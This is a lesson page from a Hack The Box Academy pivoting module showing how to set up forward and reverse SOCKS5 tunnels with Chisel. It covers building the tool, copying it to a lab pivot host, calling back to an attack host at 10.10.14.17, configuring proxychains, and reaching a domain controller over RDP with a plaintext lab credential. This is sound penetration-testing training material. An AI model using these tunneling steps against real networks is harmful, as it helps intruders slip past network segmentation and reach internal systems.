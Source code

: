 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1437
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1437
// Section Title: SOCKS5 Tunneling with Chisel
// Page Title: Hack The Box - Academy
// Page Number: 13
-->

# SOCKS5 Tunneling with Chisel

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 13

#### 

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# SOCKS5 Tunneling with Chisel

## Setting Up & Using Chisel

#### Cloning Chisel

``` shell-session
[!bash!]$ git clone https://github.com/jpillora/chisel.git
```

#### Building the Chisel Binary

``` shell-session
[!bash!]$ cd chisel
go build
```

#### Transferring Chisel Binary to Pivot Host

``` shell-session
[!bash!]$ scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09
```

#### Running the Chisel Server on the Pivot Host

``` shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

#### Connecting to the Chisel Server

``` shell-session
[!bash!]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

#### Editing & Confirming proxychains.conf

``` shell-session
[!bash!]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

#### Pivoting to the DC

``` shell-session
[!bash!]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

#### Starting the Chisel Server on our Attack Host

``` shell-session
[!bash!]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

#### Connecting the Chisel Client to our Attack Host

``` shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

#### Editing & Confirming proxychains.conf

``` shell-session
[!bash!]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080
```

``` shell-session
[!bash!]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

# 

# 

#### Questions

####